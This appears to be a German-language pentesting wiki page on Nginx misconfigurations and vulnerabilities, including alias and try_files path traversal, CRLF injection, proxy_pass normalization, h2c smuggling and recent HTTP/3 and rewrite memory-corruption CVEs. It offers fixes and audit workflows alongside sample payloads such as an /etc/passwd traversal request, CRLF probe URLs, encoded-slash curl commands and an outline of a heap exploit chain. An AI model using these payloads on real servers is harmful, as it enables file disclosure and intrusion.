

# Nginx

{{#include ../../banners/hacktricks-training.md}}

## Dynamische Module und lokale Listener

Die [`load_module`-Direktive](https://nginx.org/en/docs/ngx_core_module.html#load_module) identifiziert ein dynamisches Modul in der aktiven Konfiguration, häufig über eine eingebundene Datei wie `modules-enabled/*.conf`. Ein Modul kann eigene Direktiven und Request-Handler definieren. Wenn ein nur an Loopback gebundener Server eine nicht standardmäßige Direktive verwendet, sollten der aktive Listener, das geladene oder statisch verknüpfte Modul, seine tatsächliche Konfiguration und der Codepfad, der Requests verarbeitet, miteinander abgeglichen werden. Die [`user`-Direktive von Nginx](https://nginx.org/en/docs/ngx_core_module.html#user) legt die Zugangsdaten der Worker fest; ein Master-Prozess mit Eigentümer root bedeutet nicht automatisch, dass der Request-Handler eines Moduls als root ausgeführt wird. Ermitteln Sie die effektive Identität des betreffenden Handlers und seine Autorisierung, bevor Sie einen lokalen Request als möglichen Eskalationspfad betrachten. Passive Enumeration kann Konfigurations- und Modulpfade aufzeigen, ohne Module zu laden oder Test-Requests zu senden.

Informationen zu einer Upload-Route, über die eine aktive Nginx-Konfiguration geändert wird, finden Sie unter [uploaded Nginx include reloaded at runtime](../../pentesting-web/file-upload/#uploaded-nginx-include-reloaded-at-runtime).


## Fehlender Root-Location-Block <a href="#missing-root-location" id="missing-root-location"></a>

Bei der Konfiguration des Nginx-Servers spielt die **root-Direktive** eine entscheidende Rolle, da sie das Basisverzeichnis festlegt, aus dem Dateien bereitgestellt werden. Betrachten Sie das folgende Beispiel:

```bash
server {
        root /etc/nginx;

        location /hello.txt {
                try_files $uri $uri/ =404;
                proxy_pass http://127.0.0.1:8080/;
        }
}
```

In dieser Konfiguration ist `/etc/nginx` als Stammverzeichnis festgelegt. Dadurch können Dateien innerhalb des angegebenen Stammverzeichnisses aufgerufen werden, beispielsweise `/hello.txt`. Wichtig ist jedoch, dass nur ein bestimmter Pfad (`/hello.txt`) definiert ist. Für den Stammverzeichnispfad gibt es keine Konfiguration (`location / {...}`). Daher gilt die `root`-Direktive global, sodass Anfragen an den Pfad `/` auf Dateien unter `/etc/nginx` zugreifen können.

Diese Konfiguration birgt ein erhebliches Sicherheitsrisiko. Eine einfache `GET`-Anfrage wie `GET /nginx.conf` könnte vertrauliche Informationen offenlegen, indem sie die Nginx-Konfigurationsdatei unter `/etc/nginx/nginx.conf` bereitstellt. Wird als Stammverzeichnis ein weniger sensibles Verzeichnis wie `/etc` festgelegt, kann dies das Risiko mindern. Dennoch könnte so weiterhin unbeabsichtigter Zugriff auf andere wichtige Dateien möglich sein, darunter weitere Konfigurationsdateien, Zugriffsprotokolle und sogar verschlüsselte Zugangsdaten für die HTTP-Basisauthentifizierung.<sup>[[1]](#references)</sup>

## Alias-LFI-Fehlkonfiguration <a href="#alias-lfi-misconfiguration" id="alias-lfi-misconfiguration"></a>

In den Nginx-Konfigurationsdateien sollten die „location“-Direktiven genau geprüft werden. Eine als Local File Inclusion (LFI) bekannte Schwachstelle kann versehentlich durch eine Konfiguration wie die folgende entstehen:

```
location /imgs {
    alias /path/images/;
}
```

Diese Konfiguration ist anfällig für LFI-Angriffe, da der Server Anfragen wie `/imgs../flag.txt` als Versuch interpretiert, auf Dateien außerhalb des vorgesehenen Verzeichnisses zuzugreifen, und sie effektiv zu `/path/images/../flag.txt` auflöst. Dieser Fehler ermöglicht es Angreifern, Dateien aus dem Dateisystem des Servers abzurufen, die über das Web nicht zugänglich sein sollten.<sup>[[12]](#references)</sup>

Um diese Schwachstelle zu beheben, sollte die Konfiguration wie folgt angepasst werden:

```
location /imgs/ {
    alias /path/images/;
}
```

Weitere Informationen: [https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/)<sup>[[12]](#references)</sup>

Tests von Acunetix:

```
alias../ => HTTP status code 403
alias.../ => HTTP status code 404
alias../../ => HTTP status code 403
alias../../../../../../../../../../../ => HTTP status code 400
alias../ => HTTP status code 403
```

## Unsichere Pfadbeschränkung <a href="#unsafe-variable-use" id="unsafe-variable-use"></a>

Sieh dir die folgende Seite an, um zu erfahren, wie du Direktiven wie diese umgehen kannst:

```plaintext
location = /admin {
    deny all;
}

location = /admin/ {
    deny all;
}
```


{{#ref}}
../../pentesting-web/proxy-waf-protections-bypass.md
{{#endref}}

## Unsichere Variablenverwendung / HTTP Request Splitting <a href="#unsafe-variable-use" id="unsafe-variable-use"></a>

> [!CAUTION]
> Variablen, die eine normalisierte URI enthalten, wie `$uri` und `$document_uri`, werden gefährlich, wenn sie in Response-Header oder rekonstruierte Upstream-Requests eingefügt werden. `$request_uri` behält die ursprüngliche Request-URI bei, ist aber kein universeller Ersatz: Prüfe den Zielkontext und weise CR/LF oder mehrdeutige Pfadkodierungen zurück.
>
> Auch ein Regex kann anfällig sein, zum Beispiel:
>
> `location ~ /docs/([^/])? { … $1 … }` - Vulnerable
>
> `location ~ /docs/([^/\s])? { … $1 … }` - Not vulnerable (checking spaces)
>
> `location ~ /docs/(.*)? { … $1 … }` - Not vulnerable

Eine Schwachstelle in der Nginx-Konfiguration wird im folgenden Beispiel veranschaulicht:

```
location / {
  return 302 https://example.com$uri;
}
```

Die Zeichen \r (Carriage Return) und \n (Line Feed) stehen in HTTP-Anfragen für Zeilenumbrüche. Ihre URL-kodierten Formen werden als `%0d%0a` dargestellt. Werden diese Zeichen in einer Anfrage (z. B. `http://localhost/%0d%0aDetectify:%20clrf`) an einen falsch konfigurierten Server eingefügt, gibt der Server einen neuen Header namens `Detectify` aus. Dies geschieht, weil die Variable $uri die URL-kodierten Zeilenumbruchzeichen dekodiert, was zu einem unerwarteten Header in der Antwort führt:<sup>[[13]](#references)</sup>

```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.19.3
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: https://example.com/
Detectify: clrf
```

Erfahre mehr über die Risiken von CRLF injection und response splitting unter [https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/](https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/).<sup>[[13]](#references)</sup>

Diese Technik wird auch [**in diesem Vortrag erklärt**](https://www.youtube.com/watch?v=gWQyWdZbdoY&list=PL0xCSYnG_iTtJe2V6PQqamBF73n7-f1Nr&index=77), mit anfälligen Beispielen und Erkennungsmechanismen.<sup>[[14]](#references)</sup> Um beispielsweise die Fehlkonfiguration aus einer Black-Box-Perspektive zu erkennen, vergleiche diese Anfragen:

- `https://example.com/%20X` - Beliebiger HTTP-Statuscode
- `https://example.com/%20H` - 400 Bad Request

Wenn der Server anfällig ist, wird die erste Anfrage zurückgegeben, da "X" eine beliebige HTTP-Methode ist. Die zweite Anfrage gibt einen Fehler zurück, da H keine gültige Methode ist. Der Server erhält also etwa Folgendes: `GET / H HTTP/1.1`, was den Fehler auslöst.

Weitere Beispiele zur Erkennung:

- `http://company.tld/%20HTTP/1.1%0D%0AXXXX:%20x` - Beliebiger HTTP-Statuscode
- `http://company.tld/%20HTTP/1.1%0D%0AHost:%20x` - 400 Bad Request

Einige in diesem Vortrag vorgestellte anfällige Konfigurationen waren:

- Beachte, dass **`$uri`** unverändert in der endgültigen URL gesetzt wird.

```
location ^~ /lite/api/ {
 proxy_pass http://lite-backend$uri$is_args$args;
}
```

- Beachte, dass sich **`$uri`** erneut in der URL befindet (diesmal innerhalb eines Parameters)

```
location ~ ^/dna/payment {
 rewrite ^/dna/([^/]+) /registered/main.pl?cmd=unifiedPayment&context=$1&native_uri=$uri break;
 proxy_pass http://$back;
```

- Jetzt in AWS S3

```
location /s3/ {
 proxy_pass https://company-bucket.s3.amazonaws.com$uri;
}
```

### Beliebige Variable

Es wurde entdeckt, dass **von Benutzern bereitgestellte Daten** unter bestimmten Umständen als **Nginx-Variable** behandelt werden könnten. Die Ursache dieses Verhaltens ist noch nicht vollständig geklärt, doch es tritt weder selten auf noch lässt es sich einfach überprüfen. Auf diese Anomalie wurde in einem Sicherheitsbericht auf HackerOne hingewiesen, der [hier](https://hackerone.com/reports/370094) eingesehen werden kann. Weitere Untersuchungen der Fehlermeldung führten dazu, dass ihr Auftreten im [SSI-Filtermodul der Nginx-Codebasis](https://github.com/nginx/nginx/blob/2187586207e1465d289ae64cedc829719a048a39/src/http/modules/ngx_http_ssi_filter_module.c#L365) festgestellt wurde. Damit wurden Server Side Includes (SSI) als Ursache identifiziert.<sup>[[1]](#references)[[15]](#references)</sup>

Um diese **Fehlkonfiguration zu erkennen**, kann der folgende Befehl ausgeführt werden. Dabei wird ein Referer-Header gesetzt, um die Ausgabe von Variablen zu testen:

```bash
$ curl -H ‘Referer: bar’ http://localhost/foo$http_referer | grep ‘foobar’
```

Scans nach dieser Fehlkonfiguration auf verschiedenen Systemen deckten mehrere Fälle auf, in denen Nginx-Variablen von einem Benutzer ausgegeben werden konnten. Die sinkende Zahl anfälliger Instanzen deutet jedoch darauf hin, dass die Bemühungen, dieses Problem zu beheben, teilweise erfolgreich waren.<sup>[[1]](#references)</sup>

### try_files mit den Variablen $URI$ARGS verwenden

Die folgende Nginx-Fehlkonfiguration kann zu LFI führen:
```
location / {
		try_files $uri$args $uri$args/ /index.html;
}
```
Die Direktive `try_files` prüft Dateien in der angegebenen Reihenfolge und stellt den ersten Treffer bereit. Die grundlegende Syntax lautet:
```
try_files file1 file2 ... fileN fallback;
```

Nginx prüft, ob jede Datei in der angegebenen Reihenfolge vorhanden ist. Wenn eine Datei existiert, wird sie sofort ausgeliefert. Wenn keine der angegebenen Dateien existiert, wird die Anfrage an die Fallback-Option weitergeleitet, bei der es sich um eine andere URI oder eine bestimmte Fehlerseite handeln kann.

Wird `$uri$args` als Dateisystemkandidat verwendet, setzt Nginx die normalisierte URI und die rohen Query-Argumente zu dem Pfad zusammen, den es prüft. Durch diese unsichere Vermischung kann Traversal-Inhalt aus dem Query-String Teil des Dateinamens werden. Betrachten Sie diese ausnutzbare Konfiguration:
```
http {
	server {
	    root /var/www/html/public;

	    location / {
		try_files $uri$args $uri$args/ /index.html;
	    }
	}
}
```

Mit folgendem Payload:
```
GET /?../../../../../../../../etc/passwd HTTP/1.1
Host: example.com
```

Der Payload entkommt dem konfigurierten Stammverzeichnis und lädt `/etc/passwd`. Debug-Logs zeigen die Pfade, die Nginx testet:

```
...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 trying to use file: "/../../../../../../../../etc/passwd" "/var/www/html/public/../../../../../../../../etc/passwd"
2025/07/11 15:49:16 [debug] 79694#79694: *4 try file uri: "/../../../../../../../../etc/passwd"

...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 http filename: "/var/www/html/public/../../../../../../../../etc/passwd"

...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 HTTP/1.1 200 OK

```

PoC gegen Nginx mit der oben genannten Konfiguration:


## Lesen roher Backend-Antworten

Nginx bietet über `proxy_pass` eine Funktion, mit der vom Backend erzeugte Fehler und HTTP-Header abgefangen werden können, um interne Fehlermeldungen und Header zu verbergen. Dazu liefert Nginx als Reaktion auf Backend-Fehler benutzerdefinierte Fehlerseiten aus. Wenn Nginx jedoch auf eine ungültige HTTP-Anfrage trifft, ergeben sich Schwierigkeiten. Eine solche Anfrage wird unverändert an das Backend weitergeleitet, und dessen rohe Antwort wird dann ohne Eingreifen von Nginx direkt an den Client gesendet.<sup>[[1]](#references)</sup>

Betrachten wir ein beispielhaftes Szenario mit einer uWSGI-Anwendung:

```python
def application(environ, start_response):
    start_response('500 Error', [('Content-Type', 'text/html'), ('Secret-Header', 'secret-info')])
    return [b"Secret info, should not be visible!"]
```

Um dies zu verwalten, werden bestimmte Direktiven in der Nginx-Konfiguration verwendet:

```
http {
    error_page 500 /html/error.html;
    proxy_intercept_errors on;
    proxy_hide_header Secret-Header;
}
```

- [**proxy_intercept_errors**](http://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_intercept_errors): Diese Direktive ermöglicht es Nginx, für Backend-Antworten mit einem Statuscode über 300 eine benutzerdefinierte Antwort bereitzustellen. Dadurch wird bei unserer Beispiel-uWSGI-Anwendung eine `500 Error`-Antwort abgefangen und von Nginx verarbeitet.
- [**proxy_hide_header**](http://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_hide_header): Wie der Name schon sagt, blendet diese Direktive angegebene HTTP-Header für den Client aus und erhöht so Datenschutz und Sicherheit.

Bei einer gültigen `GET`-Anfrage verarbeitet Nginx sie wie gewohnt und gibt eine standardmäßige Fehlerantwort zurück, ohne geheime Header preiszugeben. Eine ungültige HTTP-Anfrage umgeht diesen Mechanismus jedoch, wodurch rohe Backend-Antworten einschließlich geheimer Header und Fehlermeldungen offengelegt werden.

## merge_slashes set to off

Standardmäßig ist Nginx's **`merge_slashes`-Direktive** auf **`on`** gesetzt. Dadurch werden mehrere Schrägstriche in einer URL zu einem einzelnen Schrägstrich zusammengefasst. Diese Funktion vereinfacht zwar die URL-Verarbeitung, kann jedoch unbeabsichtigt Schwachstellen in Anwendungen hinter Nginx verschleiern, insbesondere bei Anwendungen, die für Local File Inclusion (LFI)-Angriffe anfällig sind. Die Sicherheitsexperten **Danny Robinson und Rotem Bar** haben auf die potenziellen Risiken dieses Standardverhaltens hingewiesen, insbesondere wenn Nginx als Reverse-Proxy fungiert.<sup>[[16]](#references)</sup>

Betrachte `merge_slashes off` nicht als Sicherheitsmaßnahme. Das Deaktivieren der Normalisierung kann beim Testen hilfreich oder für eine Anwendung erforderlich sein, aber dadurch kann Traversal-Verhalten des Backends offengelegt werden, das durch die Standardeinstellung zufällig verborgen blieb. Stimme die Kanonisierung von Proxy und Backend aufeinander ab, weise mehrdeutige Pfade zurück und setze die Autorisierung für die kanonische Route durch.<sup>[[16]](#references)</sup>

Weitere Informationen findest du bei [Danny Robinson and Rotem Bar](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d).<sup>[[16]](#references)</sup>

## `proxy_pass` path normalization & encoded slash confusion

Ein weniger offensichtlicher, aber sehr häufiger Reverse-Proxy-Fehler tritt auf, wenn eine **prefix location** mit einem `proxy_pass` kombiniert wird, das ebenfalls einen **URI path** enthält. Laut der [offiziellen `proxy_pass`-Dokumentation](https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_pass) leitet nginx die **normalisierte** Request-URI an das Backend weiter, wenn `proxy_pass` einen URI enthält. Das bedeutet, dass **Percent-Decoding** und die **Dot-Segment-Normalisierung** erfolgen, bevor der Upstream den Pfad erhält.<sup>[[7]](#references)[[20]](#references)</sup>

Beispiel einer riskanten Konfiguration:

```nginx
location /api/ {
    proxy_pass http://backend/;
}
```

Bei dieser Konfiguration wird eine Anfrage wie `GET /api/public%2F%2E%2E%2Fsecret HTTP/1.1` von nginx zu `/api/secret` normalisiert, der Präfix `/api/` entfernt und `/secret` an das Backend weitergeleitet. Dadurch ergeben sich mehrere praktische Angriffswege:

- **Backend-ACL-Umgehungen**, wenn nginx nur `/api/public/*` freigibt, die Anwendung hinter demselben Upstream aber auch sensible Routen bereitstellt
- **Cache-/Key-Verwechslungen**, wenn Frontend und Backend uneinig darüber sind, welche Ressource tatsächlich angefragt wurde
- **Aushebeln clientseitiger Schutzmaßnahmen**, die darauf beruhten, dass der Browser `%2F` codiert ließ

### Worauf zu achten ist

Bei einer Konfigurationsprüfung sollten insbesondere Blöcke wie diese berücksichtigt werden:

```nginx
location /prefix/ {
    proxy_pass http://upstream/;
}

location /prefix/ {
    proxy_pass http://upstream/app/;
}
```

Diese verdienen besondere Aufmerksamkeit, wenn das Upstream sowohl öffentliche als auch interne Routen bereitstellt oder wenn nginx zur Durchsetzung pfadbasierter Autorisierung verwendet wird. Dies steht in engem Zusammenhang mit den Path-confusion-ACL-Bypasses, die [auf dieser Seite](../../pentesting-web/proxy-waf-protections-bypass.md) erklärt werden.

### Black-Box-Probes

```bash
# Compare a legitimate public path with an encoded traversal variant
curl -i https://target.tld/api/public/info
curl -i https://target.tld/api/public%2F%2E%2E%2Fsecret

# If the backend reflects the route, look for normalization side effects
curl -i https://target.tld/api/foo%2F%2E%2E%2F
```

Wenn die zweite Anfrage plötzlich über eine andere Upstream-Route geleitet wird, eine Login-Seite oder eine nur für Admins bestimmte Antwort zurückgibt oder ein cachebares privates Objekt liefert, sollten Sie Probleme mit der Normalisierung von `proxy_pass` vermuten.

### Sicherere Muster

Wenn nginx die Anfrage nur weiterleiten muss, lassen Sie den URI-Teil vorzugsweise weg:

```nginx
location /api/ {
    proxy_pass http://backend;
}
```

Wenn der Pfad vor dem Proxying umgeschrieben werden muss, definiere ausdrücklich, welche kanonische Form autorisiert und weitergeleitet wird. `$request_uri` behält den ursprünglichen Pfad und die Argumente bei, während die Rewrite-Verarbeitung den normalisierten URI-Zustand verwendet. Das Weiterleiten des Rohwerts kann selbst unsicher sein, sofern kodierte Trennzeichen und Dot-Segmente nicht zurückgewiesen werden.

### **Bösartige Response-Header**

Wie in [**diesem Write-up**](https://mizu.re/post/cors-playground) gezeigt, ändern bestimmte Upstream-Response-Header das Proxy-Verhalten von Nginx.<sup>[[17]](#references)</sup> Sie sind in der [X-Accel-Dokumentation](https://www.nginx.com/resources/wiki/start/topics/examples/x-accel/) aufgeführt.<sup>[[21]](#references)</sup>

- `X-Accel-Redirect`: Weist Nginx an, eine Anfrage intern an einen angegebenen Ort umzuleiten.
- `X-Accel-Buffering`: Steuert, ob Nginx die Response puffern soll.
- `X-Accel-Charset`: Legt den Zeichensatz für die Response fest, wenn X-Accel-Redirect verwendet wird.
- `X-Accel-Expires`: Legt die Ablaufzeit für die Response fest, wenn X-Accel-Redirect verwendet wird.
- `X-Accel-Limit-Rate`: Begrenzt die Übertragungsrate für Responses, wenn X-Accel-Redirect verwendet wird.

Der Header **`X-Accel-Redirect`** bewirkt beispielsweise einen internen **Redirect** in Nginx. Eine Nginx-Konfiguration mit etwas wie **`root /`** und eine Response vom Webserver mit **`X-Accel-Redirect: .env`** führen also dazu, dass Nginx den Inhalt von **`/.env`** sendet (Path Traversal).

### **Standardwert in der Map-Direktive**

In der **Nginx-Konfiguration** spielt die Direktive `map` oft eine Rolle bei der **Autorisierungskontrolle**. Ein häufiger Fehler ist, keinen **Standardwert** anzugeben, was zu unautorisiertem Zugriff führen kann.<sup>[[3]](#references)</sup> Zum Beispiel:

```yaml
http {
map $uri $mappocallow {
/map-poc/private 0;
/map-poc/secret 0;
/map-poc/public 1;
}
}
```

```yaml
server {
    location /map-poc {
        if ($mappocallow = 0) {return 403;}
        return 200 "Hello. It is private area: $mappocallow";
    }
}
```

Without `default` kann ein **böswilliger Benutzer** die Sicherheit umgehen, indem er auf einen **nicht definierten URI** innerhalb von `/map-poc` zugreift. [Das Nginx-Handbuch](https://nginx.org/en/docs/http/ngx_http_map_module.html) empfiehlt, einen **Standardwert** festzulegen, um solche Probleme zu vermeiden.

### **DNS-Spoofing-Schwachstelle**

DNS-Spoofing gegen Nginx ist unter bestimmten Bedingungen möglich. Kennt ein Angreifer den von Nginx verwendeten **DNS-Server** und kann dessen DNS-Abfragen abfangen, kann er DNS-Einträge fälschen. Diese Methode ist jedoch unwirksam, wenn Nginx so konfiguriert ist, dass für die DNS-Auflösung **localhost (127.0.0.1)** verwendet wird.<sup>[[2]](#references)</sup> Nginx ermöglicht die Angabe eines DNS-Servers wie folgt:

```yaml
resolver 8.8.8.8;
```

### **`proxy_pass`- und `internal`-Direktiven**

Die Direktive **`proxy_pass`** wird verwendet, um Anfragen an andere Server weiterzuleiten, entweder intern oder extern. Die Direktive **`internal`** stellt sicher, dass bestimmte Locations nur innerhalb von Nginx zugänglich sind. Diese Direktiven sind an sich keine Sicherheitslücken, ihre Konfiguration muss jedoch sorgfältig geprüft werden, um Sicherheitslücken zu verhindern.

## proxy_set_header Upgrade & Connection

Wenn der nginx-Server so konfiguriert ist, dass er die Header Upgrade und Connection weiterleitet, könnte ein [**h2c Smuggling attack**](../../pentesting-web/h2c-smuggling.md) durchgeführt werden, um auf geschützte/interne Endpunkte zuzugreifen.

> [!CAUTION]
> Diese Sicherheitslücke kann es einem Angreifer ermöglichen, **einen Tunnel zum `proxy_pass`-Endpunkt aufzubauen** (`http://backend:9999` in diesem Fall) und dabei Nginx' normale pfadbezogene Prüfungen für einzelne Anfragen zu umgehen.

Beispiel einer anfälligen Konfiguration, um `/flag` von [hier](https://bishopfox.com/blog/h2c-smuggling-request) zu stehlen:<sup>[[18]](#references)</sup>

```
server {
    listen       443 ssl;
    server_name  localhost;

    ssl_certificate       /usr/local/nginx/conf/cert.pem;
    ssl_certificate_key   /usr/local/nginx/conf/privkey.pem;

    location / {
     proxy_pass http://backend:9999;
     proxy_http_version 1.1;
     proxy_set_header Upgrade $http_upgrade;
     proxy_set_header Connection $http_connection;
    }

    location /flag {
     deny all;
    }
```

> [!WARNING]
> Selbst wenn `proxy_pass` auf einen bestimmten **Pfad** zeigt, etwa `http://backend:9999/socket.io`, wird die Verbindung mit Upgrade mit `http://backend:9999` hergestellt. Das getunnelte Protokoll kann daher andere Pfade auf diesem internen Endpunkt erreichen; der Pfad in `proxy_pass` schränkt nachfolgende getunnelte Anfragen nicht ein.

## HTTP/2-Upstream-Request-Injection mit `proxy_set_body`

Ein neuerer nginx-spezifischer Prüfpunkt ist die Kombination aus **`proxy_http_version 2;`** und **`proxy_set_body`**. Im Zeitfenster des anfälligen Advisories von 2026 konnte nginx einen Upstream-HTTP/2-DATA-Frame erzeugen, dessen angegebene Länge überlief, während weiterhin die **vollständigen, vom Angreifer beeinflussten Body-Bytes** an den Upstream-Peer weitergeleitet wurden. In der Praxis kann der Upstream die nachfolgenden Bytes dadurch als **neue HTTP/2-Frame-Header bzw. -Payload** interpretieren. So wird aus einer Body-Rewrite-Möglichkeit eine Primitive für **Upstream-Request-Injection bzw. Desynchronisierung**.<sup>[[4]](#references)</sup>

Besonders interessant ist das bei internen Deployments im Stil eines API-Gateways, bei denen nginx per HTTP/2 mit dem Backend kommuniziert und der Request-Body aus benutzerkontrollierten Variablen neu erstellt wird. Beispiel für ein Audit-Muster:

```nginx
location /api/relay {
    proxy_pass http://backend;
    proxy_http_version 2;
    proxy_set_body $arg_data;
}
```

### Worauf zu achten ist

- `proxy_http_version 2;` in einem beliebigen Reverse-Proxy-Location-Block
- `proxy_set_body`, dessen Wert aus **Request-Parametern, Headern, Captures oder Variablen** stammt
- Interne gRPC-/HTTP/2-Backends, bei denen ein injizierter Frame die Request-Semantik ändern oder andere Streams zurücksetzen kann

### Testidee

Wenn du die in `proxy_set_body` kopierten Bytes beeinflussen kannst, sende ungewöhnlich große Werte und achte auf Folgendes:

- Upstream-only-`RST_STREAM`-/`GOAWAY`-Fehler
- Backend-Verhalten, das von den nginx-Access-Logs abweicht
- Antworten, die darauf hindeuten, dass der Upstream aus einem einzelnen weitergeleiteten Request **mehrere logische Frames** geparst hat

Konzeptionell steht dies im Zusammenhang mit [HTTP/2-Request-Smuggling- und Downgrade-Problemen](../../pentesting-web/http-request-smuggling/request-smuggling-in-http-2-downgrades.md), aber hier liegt die Vertrauensgrenze zwischen **nginx und seinem HTTP/2-Upstream-Peer**.

## Remote-DoS & leak im HTTP/3-QUIC-Modul (2024)

Im Jahr 2024 veröffentlichte Nginx die CVEs CVE-2024-31079, CVE-2024-32760, CVE-2024-34161 und CVE-2024-35200. Sie zeigen, dass **eine einzige bösartige QUIC-Sitzung** Worker-Prozesse zum Absturz bringen oder Speicher offenlegen kann, wenn das experimentelle `ngx_http_v3_module` einkompiliert und ein `listen ... quic`-Socket erreichbar ist. Betroffen sind die Builds 1.25.0–1.25.5 und 1.26.0; 1.27.0/1.26.1 enthalten die Fixes. Damit die Speicheroffenlegung (CVE-2024-34161) sensible Daten preisgibt, sind zusätzlich MTUs über 4096 Byte erforderlich (Details finden sich in der unten genannten Nginx-Sicherheitsmitteilung von 2024).<sup>[[19]](#references)</sup>

**Recon- und Exploitation-Hinweise**

- HTTP/3 ist optional. Suche daher nach Antworten mit `Alt-Svc: h3=":443"` oder brute-force QUIC-Handshakes über UDP/443. Sobald die Unterstützung bestätigt ist, fuzz den Handshake und die STREAM-Frames mit eigenen `quiche-client`-/`nghttp3`-Payloads, um Worker-Abstürze auszulösen und Log-Leaks zu provozieren.
- Prüfe die Unterstützung des Ziels schnell mit:

```bash
nginx -V 2>&1 | grep -i http_v3
rg -n "listen .*quic" /etc/nginx/
```

## Konfigurationsabhängige Script- und QPACK-Speicherbeschädigung

Aktuelle Forschung zu Nginx-Speicherbeschädigungen zeigt, warum ein Versionsabgleich nur der erste Schritt bei der Triage ist. Prüfe die **kompilierten Module**, die vollständig expandierte Konfiguration, ob ein Angreifer die Direktive erreichen kann und ob der veröffentlichte Exploit zur Laufzeit Adressen ermittelt. Andernfalls kann ein öffentlicher RCE-PoC in der realen Bereitstellung auf einen reproduzierbaren Worker-Absturz hinauslaufen.<sup>[[22]](#references)[[24]](#references)</sup>

### Rewrite-/Script-Größenabweichung bei zwei Durchläufen

Die Rewrite-Engine berechnet zunächst die Größe eines komplexen Werts und kopiert ihn anschließend. Wenn diese Durchläufe unterschiedlichen Zuständen folgen, kann die Allokation kleiner als das expandierte Ergebnis sein. Ein demonstrierter Pfad verwendet ein `rewrite`-Ersetzungsmuster mit `?`, gefolgt von einer `set`-Expansion eines Regex-Captures: Der Größendurchlauf zählt rohe Bytes, während der Kopierdurchlauf Argument-Bytes percent-escapt und jedes Byte auf drei Zeichen erweitern kann. Überlappende Captures wie `^/((.*))$`, die als `$1$2` expandiert werden, bilden eine verwandte gefährliche Konfiguration.<sup>[[22]](#references)[[23]](#references)[[24]](#references)</sup>

Für die Ausnutzung reicht es nicht, den [heap overflow](../../binary-exploitation/libc-heap/heap-overflow.md) auszulösen. Die Rift-Kette arrangiert Allokationen über mehrere Requests hinweg, verteilt gefälschte `ngx_pool_cleanup_s`-Datensätze über POST-Bodies, beschädigt den `cleanup`-Pointer eines angrenzenden Pools und erreicht `system()`, wenn dieser Pool zerstört wird. Der öffentliche Exploit hardcodiert Heap- und libc-Adressen. Bei normal aktiviertem ASLR ist daher ein Worker-Absturz wahrscheinlicher als RCE.<sup>[[22]](#references)[[24]](#references)</sup> PoolSlip ermittelt stattdessen aktive Heap- und Nginx-Image-Adressen, ist aber weiterhin build-spezifisch und probabilistisch.<sup>[[23]](#references)[[24]](#references)</sup>

### Stream-SNI-Capture-Zustand und Reflection

Prüfe `stream`-Blöcke, die `ssl_preread`, eine Regex-basierte `map` und unbenannte Captures wie `$1` kombinieren. Ein speziell gestaltetes TLS-SNI kann den globalen Capture-Zustand zwischen dem Größen- und dem Kopierdurchlauf ändern. Dadurch schreibt der Kopierdurchlauf ein größeres Capture als in den komplexen Wertebuffer passt. Ein Test-Harness wie `return "$1$m";` gibt geleakte Heap-/libc-Pointer an den Client zurück und ermöglicht den veröffentlichten ASLR-Bypass. Bei normalem Routing wie `proxy_pass "$1$m";` werden diese Bytes stattdessen an das Backend gesendet. Der entfernte Client erhält normalerweise nur einen Absturz, aber keine Adressen.<sup>[[22]](#references)[[24]](#references)</sup>

### Freigegebener QPACK-Session-Buffer in HTTP/3

Bei einem expliziten `listen ... quic`-Listener kann QPACK einen Session-`insert_buffer` aus dem Pool eines unidirektionalen Encoder-Streams allozieren. Wird dieser Stream geschlossen, wird der Pool freigegeben, während die Session den Pointer behält. Ein späterer Encoder-Stream greift dann auf einen [use-after-free](../../binary-exploitation/libc-heap/use-after-free/) zu. Stelle einen echten HTTP/3-Handshake sicher, statt dich nur auf `Alt-Svc` oder QUIC Version Negotiation zu verlassen. Ein Absturz ist das zuverlässige Primitive; Remote-Memory-Scanning-ASLR-Bypasses hängen vom exakten Build und Layout ab.<sup>[[22]](#references)[[24]](#references)</sup>

### Workflow zur Überprüfung der Angriffsfläche

1. Führe `nginx -T` und `nginx -V` aus; prüfe expandierte Includes und Build-Flags.
2. Analysiere Direktivenbeziehungen mit einem syntaxbewussten Tool wie `ngxray`. Suche nach genau der Rewrite-/Capture-, `map`-/Reflection- oder QUIC-Listener-Konstellation, die der Exploit voraussetzt.
3. Reproduziere den Fehler in einem isolierten, passenden Build mit ASan und wiederhole den Test anschließend mit aktivierten Produktionsschutzmaßnahmen.
